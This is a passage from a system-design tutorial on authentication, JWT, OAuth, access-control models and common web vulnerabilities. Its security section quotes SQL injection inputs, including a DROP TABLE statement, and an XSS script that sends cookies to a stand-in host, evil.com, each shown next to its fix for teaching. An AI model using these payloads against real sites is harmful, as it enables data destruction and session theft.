

**The catch:** The session store must be shared across ALL your servers. If Server A creates a session, Server B needs to find it too when traffic arrives there next.

---

### JWT — the modern stateless approach

A JWT is a self-contained token carrying user info inside it. No database lookup needed to verify it.

```
A JWT has 3 parts separated by dots:

eyJhbGci...  .  eyJ1c2VySWQiOjQyfQ  .  SflKxwRJSMeKKF2Q...
     |                  |                       |
  HEADER             PAYLOAD                SIGNATURE
  algorithm         who is this?          hash of Part 1 + Part 2
  used to sign      when does it expire?  using the server's secret key

If anyone tampers with the payload, the signature does not match.
The token is rejected.
```



JWT pros:

- Stateless — works across multiple servers with no shared session store
- Carries user info inside (ID, roles) — no DB call per request
- Perfect for microservices

JWT cons:

- Hard to "log out" before expiry — use short expiry (15 min) plus refresh tokens
- If stolen, attacker has access until the token expires

---

### OAuth 2.0 — "Login with Google / GitHub"

OAuth 2.0 is the protocol behind "Login with Google" buttons. It lets you grant a third-party app limited access to your account on another service — **without giving them your password**.

```mermaid
sequenceDiagram
    participant U as You
    participant APP as Spotify (App)
    participant AUTH as Facebook (Auth Server)
    participant RS as Facebook (Resource Server)

    U->>APP: "Login with Facebook"
    APP->>AUTH: Redirect: "User wants to login via my app"
    AUTH->>U: "Spotify wants your name + email. Allow?"
    U->>AUTH: "Allow"
    AUTH->>APP: Authorization Code
    APP->>AUTH: Exchange code for access token (server-side, secure)
    AUTH->>APP: Access Token
    APP->>RS: GET /me  (Authorization: Bearer access_token)
    RS->>APP: { name: "Alice", email: "alice@fb.com" }
    APP->>U: You are logged in as Alice
```

Spotify never sees your Facebook password. It only gets a limited token that can read your name and email — nothing else.

---

## 27. Authorization — what you're allowed to do

### Authentication vs Authorization — not the same thing

```
Authentication = "Who are you?"
  Verifying identity. Are you who you claim to be?
  "Show me your ID."

Authorization = "What are you allowed to do?"
  Checking permissions. What can this person access?
  "Your ID is valid but you do not have clearance for Floor 5."

Example:
  You log into a company app.        <- Authentication passed
  You try to view HR salary records.
  You are a developer, not HR.       <- Authorization denied
```

---

### Role-Based Access Control (RBAC) — the most common model

Assign users to **roles**, define what each role can do.

```mermaid
graph LR
    Alice["Alice"] --> AdminRole["Admin Role"]
    Bob["Bob"] --> EditorRole["Editor Role"]
    Carol["Carol"] --> ViewerRole["Viewer Role"]

    AdminRole --> CanDelete["Delete content"]
    AdminRole --> CanWrite["Write content"]
    AdminRole --> CanRead["Read content"]
    AdminRole --> ManageUsers["Manage users"]

    EditorRole --> CanWrite
    EditorRole --> CanRead

    ViewerRole --> CanRead
```

---

### Attribute-Based Access Control (ABAC) — finer grained

RBAC gives access based on role. ABAC gives access based on **attributes** — much more flexible.

```
ABAC rule examples:

  "Allow IF user.department = 'Finance'
           AND resource.type = 'salary_report'
           AND time BETWEEN 9am AND 6pm"

  "Allow IF user.clearance >= resource.required_clearance"

  "Allow IF user.country = resource.data_residency_region"
  (useful for GDPR compliance)
```

---

### Authorization using JWT claims

When a user logs in, the JWT can carry roles and permissions so no DB lookup is needed per request:

```json
{
  "userId": 42,
  "email": "alice@company.com",
  "roles": ["admin", "editor"],
  "permissions": ["articles:write", "articles:delete", "users:manage"],
  "exp": 1735000000
}
```

When Alice tries to delete an article:

```
Server receives:  DELETE /articles/123
Token says:       roles: ["admin", "editor"]
Server checks:    Does admin or editor role have delete permission?
Answer:           Admin does -> Allow
```

No database call for authorization — the JWT already carries the answer.

---

### Principle of Least Privilege — the golden rule

> **Give every user, service, and process only the minimum permissions needed. Nothing more.**

```
Bad practice:
  Every developer has production database admin access.
  -> One compromised account = full database exposed.

Good practice:
  Developers have read-only access to logs.
  Elevated access requires a formal request, is logged,
  and auto-expires after 1 hour.
  -> Compromised account has a very limited blast radius.

This applies to services too:
  Image-resizing service   -> access to image bucket only
  Email service            -> permission to send emails only
  Reporting service        -> read-only database access, never write
```

---

## 28. Security — keeping the bad guys out

Security is not one thing. It is a collection of practices across every layer of your system.

---

### HTTPS — encrypting everything in transit

Every app must use HTTPS. Without it, anyone on the same network can read your traffic.

```
Without HTTPS:
  Browser sends:   POST /login { "password": "hunter2" }
  Travels network: visible to anyone on the same WiFi
  Attacker reads:  "password": "hunter2"                 <- bad

With HTTPS (TLS):
  Browser sends:   ████████████████████████ (encrypted)
  Network sees:    ████████████████████████ (unreadable)
  Only the server has the private key to decrypt         <- good
```

---

### SQL Injection — sneaking commands into your database

```
Your app runs:  SELECT * FROM users WHERE email = '[user input]'

Normal user types:    alice@gmail.com
Query:                SELECT * FROM users WHERE email = 'alice@gmail.com'   OK

Attacker types:       ' OR '1'='1
Query:                SELECT * FROM users WHERE email = '' OR '1'='1'
                                                              ^^^^^^^^^^^
                                                              Always true!
                      Returns ALL users in the database        <- bad

Attacker types:       '; DROP TABLE users; --
Query:                Deletes your entire users table           <- catastrophic
```

**Fix: Use parameterised queries. Always.**

```python
# DANGEROUS:
query = f"SELECT * FROM users WHERE email = '{user_input}'"

# SAFE (input is treated as data, never as SQL code):
query = "SELECT * FROM users WHERE email = ?"
cursor.execute(query, [user_input])
```

---

### XSS — Cross-Site Scripting

An attacker injects malicious JavaScript into your page. It runs in other users' browsers.

```
Your site shows user comments:
  Normal:    <div class="comment">Great article!</div>

  Attacker posts:
    <script>fetch('https://evil.com/?c='+document.cookie)</script>

  If rendered as raw HTML:
    -> Every visitor's browser runs the script
    -> Cookies sent to evil.com
    -> Attacker can log in as every user who viewed the page  <- bad
```

**Fix:** Escape all user content before rendering as HTML. React, Vue, and Angular do this automatically. Never use `.innerHTML` with untrusted data.

---

### Broken Authentication — weak login systems

```
Common mistakes:
  Passwords stored as plain text or weak hash (MD5)
  No account lockout after failed attempts
    -> Lets attackers try millions of passwords (brute force)
  Session tokens that never expire
  No rate limiting on the login endpoint

Fixes:
  Hash passwords with bcrypt or Argon2 (not MD5 or SHA1)
  Lock accounts after 5-10 failed attempts with backoff
  JWT tokens expire in 15-60 minutes (use refresh tokens)
  Rate limit logins: max 5 attempts per minute per IP
  Offer MFA for sensitive accounts
```

---

### Sensitive Data Exposure

```
Bad API response:
  {
    "id": 42,
    "name": "Alice",
    "email": "alice@gmail.com",
    "password_hash": "$2b$12$abc...",    <- NEVER return this
    "credit_card": "4111111111111111",   <- NEVER return this
    "internal_flag": true                 <- should not exist here
  }

Good API response:
  {
    "id": 42,
    "name": "Alice",
    "email": "alice@gmail.com"
  }
```

Each endpoint should return only what the client actually needs.

---

### Security checklist

```
Authentication:
  [ ] Passwords hashed with bcrypt or Argon2
  [ ] Account lockout after failed attempts + rate limiting
  [ ] JWT tokens have short expiry (15-60 min)
  [ ] MFA available for sensitive accounts

Data protection:
  [ ] HTTPS everywhere (redirect HTTP -> HTTPS)
  [ ] API returns only fields needed per endpoint
  [ ] No secrets hardcoded in source code (use env vars)

Input handling:
  [ ] Parameterised queries everywhere (zero SQL concatenation)
  [ ] All user input escaped before rendering in HTML
  [ ] File upload type validation
  [ ] Request size limits

Infrastructure:
  [ ] No default credentials left unchanged
  [ ] Firewall: only required ports open
  [ ] Regular dependency updates

Monitoring:
  [ ] Log all auth events (logins, failures, logouts)
  [ ] Alert on suspicious patterns (100 failed logins in 1 min)
  [ ] Audit log: who accessed what, when
```

---

```
╔═══════════════════════════════════════════════════════════════╗
║                                                               ║
║   The best system is the simplest one that solves            ║
║   your problem today. Not the one designed for a             ║
║   scale you may never reach.                                 ║
║                                                              ║
║   Start simple. Scale when the pain is real.                 ║
║   Complexity is a cost, not a feature.                       ║
║                                                               ║
╚═══════════════════════════════════════════════════════════════╝
```

---

_Part of the AI_Projects learning series._
